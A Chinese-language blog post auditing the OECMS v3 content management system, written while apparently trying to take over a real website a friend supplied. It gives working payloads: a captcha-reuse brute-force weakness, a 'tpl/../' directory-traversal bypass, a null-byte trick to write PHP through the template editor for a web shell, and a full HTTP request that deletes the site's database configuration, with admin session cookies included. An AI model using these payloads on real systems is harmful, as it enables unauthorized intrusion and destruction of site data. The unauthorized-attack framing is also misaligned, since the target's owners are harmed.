 ```yaml
---
title: "Oecms v3 Audit"
date: 2019-04-15T13:06:38+08:00
lastmod: 2019-04-15T13:06:38+08:00
draft: false
tags: ['audit']
categories: [code]
comment: true
---
```


实战中碰到了这个cms，审计一波，记录一下

<!--more-->

@ershiyi发我一个网站，让我拿shell，看了下是oecmsv3.0的源码，并且二次开发过。有后台的账号和密码，关键在于怎么getshell，所以sql注入的点我没看。以下是审计结果。

# 后台登陆爆破

`http://go.go/admin/login.php`

![](https://y4er.com/img/uploads/20190509166907.jpg)

产生原因：

`oecms\data\include\imagecode.php`生成验证码后存入session

```php
while(($randval=rand()%100000)<10000);{
        $_SESSION["verifycode"] = $randval;
        //将四位整数验证码绘入图片 
        imagestring($im, 5, 10, 3, $randval, $black);
    }
```

`oecms\admin\login.php`进行验证码比对后并没有及时刷新session

```php
if($checkcode != $_SESSION["verifycode"]){
			$founderr	= true;
			$errmsg	   .= "验证码不正确.<br />";
		}
```

# 后台文件遍历

`E:\WWW\oecms\admin\oecms_template.php`

```php
function volist(){
	Core_Auth::checkauth("templatevolsit");
	global $dir,$tpl;
	if(!Core_Fun::ischar($dir)){
		$dir = "tpl";
	}

	if(substr($dir,0,3)!="tpl"){
		Core_Fun::halt("对不起，模板管理只允许读取“tpl”目录下的文件！","",1);
	}
.
.
.
	$tpl->assign("dirpath",$dirpath);
	$tpl->assign("dir",$dir);
	$tpl->assign("template",$template);
}
```

限制`$dir`的前三个字符是`tpl`，可以用`http://go.go/admin/oecms_template.php?dir=tpl/../`绕过

![](https://y4er.com/img/uploads/20190509167792.jpg)

# 编辑模板getshell

`E:\WWW\oecms\admin\oecms_template.php`

```php
/* 扩展名 */
	$allow_exts = "tpl|html|htm|js|css";
	$array_file = explode(".",$urlstrs);
	$array_count = count($array_file);
	$file_ext = $array_file[$array_count-1];
	if(!Core_Fun::foundinarr($allow_exts,strtolower($file_ext),"|")){
		Core_Fun::halt("对不起，只允许修改后缀为.tpl,.html,.htm,.js和.css的文件！","",1);
	}
```

限制文件名后缀，考虑到这个cms比较老，目标站点是php5.3的环境，可以用`%00`绕过

payload:`/admin/oecms_template.php?action=edit&urlstrs=tpl/..//case.php%00.tpl`

在这边需要注意的是保存的时候也需要进行`%00`截断，并且编辑的文件需要是存在的php文件，否则无法getshell

因为在153行

```php
/* 检测文件 */
	if(!is_writeable("../".$urlstrs)){
		Core_Fun::halt("对不起，该文件没有修改的权限！请设置tpl目录权限后再试！","",1);
	}else{
		$handle = fopen("../".$urlstrs,"wb");
		if(!$handle){
			Core_Fun::halt("对不起，不能打开该文件！","",1);
		}else{
			if(@fwrite($handle,$content)===FALSE){
				Core_Fun::halt("对不起，文件修改失败，请检查该文件是否使用中！","",1);
			}else{
				Core_Command::runlog("","编辑文件成功[".$urlstrs."]",1);
				Core_Fun::halt("模板文件修改成功","oecms_template.php?dir=".urlencode(substr($filepath,0,(strlen($filepath)-1)))."",0);
			}
		}
		fclose($handle);
```

首先检查了文件是否可用，如果是不存在的文件，则返回`对不起`

# 任意文件删除

payload

```php
GET /admin/upload.php?action=del&comeform=myform&picfolder=&inputid=uploadfiles&thumbinput=thumbfiles&channel=product&thumbflag=1&thumbwidth=0&thumbheight=0&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=source/conf/db.inc.php HTTP/1.1
Host: go.go
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://go.go/admin/upload.php?action=show&comeform=myform&inputid=uploadfiles&thumbflag=1&thumbinput=thumbfiles&channel=product&waterflag=1&picname=2c6e34c9bfd7a0b71ba157f17cc9666b.jpg&picurl=data/attachment/201108/27/2c6e34c9bfd7a0b71ba157f17cc9666b.jpg
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: set_options=set01; yc7gv1sgapp_admininfo=27a9gBgBf3Nb4JZymeKzxzYAdfCau0p%2BKLHiFMQlKfHjg2vmJsuI%2B%2FbtehcrXGXAGPmT%2F9Tq6C5VvUkF1NVu9Gqth2vIf9elrseicrYUkz9KTiA; PHPSESSID=ae2da05952aff79b9f9f86466915b033; 7ZnF6tLU_ADMINNAME=admin; 7ZnF6tLU_ADMINPASSWORD=21232f297a57a5a743894a0e4a801fc3
Connection: close


```

修改`picurl`参数删除任意文件，payload中是删除数据库配置文件，慎用。删除`config.inc.php`后会导致重装

`admin/upload.php`103行

```php
function del(){
	Core_Fun::deletefile("../".$GLOBALS['picurl']);
	echo("<script language='javascript'>window.location.href='upload.php?action=&".$GLOBALS['comeurl']."';</script>");
}
```

跟踪`deletefile()`函数

```php
	public static function deletefile($s_filename){
		if(!self::ischar($s_filename)){
			return;
		}
		@unlink($s_filename);
	}
```

没有判断文件路径，导致任意文件删除。

# 后台文件黑名单上传

`http://go.go/admin/annexform.php?comeform=myform&inputname=uploadfiles`

黑名单`asp|aspx|asax|asa|jsp|cer|cdx|asa|htr|php|php3|cgi|html|htm|shtml`

可根据具体环境截断或者用其他可解析后缀来上传shell，在这里不细说。

# 后话

最后目标站也没拿下来，编辑模板报500，nginx上传截断无果